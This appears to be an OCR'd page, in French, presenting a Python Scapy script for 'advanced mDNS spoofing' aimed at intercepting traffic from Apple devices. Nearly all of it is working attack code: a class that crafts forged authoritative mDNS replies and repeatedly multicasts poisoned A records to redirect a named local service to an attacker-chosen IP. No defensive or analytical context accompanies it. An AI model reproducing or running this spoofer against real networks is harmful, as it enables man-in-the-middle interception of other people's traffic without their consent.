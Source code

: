 #### Techniques de spoofing mDNS avancées

```python
#!/usr/bin/env python3
# Spoofer mDNS pour interception de trafic Apple
from scapy.all import *
import threading
import time

class MDNSSpoofer:
    def __init__(self, interface="en0"):
        self.interface = interface
        self.spoofed_services = {}
        self.running = False
        
    def create_fake_service(self, service_name, service_type, target_ip, port=80):
        """Crée un faux service Apple"""
        self.spoofed_services[service_name] = {
            'type': service_type,
            'ip': target_ip,
            'port': port
        }
        
    def craft_mdns_response(self, query_packet, service_name):
        """Crée une réponse mDNS spoofée"""
        if not query_packet.haslayer(DNS):
            return None
            
        # Construction de la réponse spoofée
        response = IP(dst=query_packet[IP].src)/UDP(sport=5353, dport=query_packet[UDP].sport)/DNS(
            id=query_packet[DNS].id,
            qr=1,  # Response
            aa=1,  # Authoritative answer
            rd=0,
            ra=0,
            ancount=1,
            an=DNSRR(
                rrname=query_packet[DNS].qd.qname,
                type="PTR",
                rdata=service_name + ".local",
                ttl=120
            )
        )
        
        return response
    
    def poison_mdns_cache(self, target_service, malicious_ip):
        """Empoisonne le cache mDNS pour rediriger le trafic"""
        poison_packet = IP(dst="224.0.0.251")/UDP(dport=5353)/DNS(
            qr=1,  # Response
            aa=1,  # Authoritative
            ancount=1,
            an=DNSRR(
                rrname=target_service + ".local",
                type="A",
                rdata=malicious_ip,
                ttl=60
            )
        )
        
        # Envoi répété pour assurer l'empoisonnement
        for _ in range(5):
            send(poison_packet, iface=self.interface, verbose=0)
            time.sleep(1)
```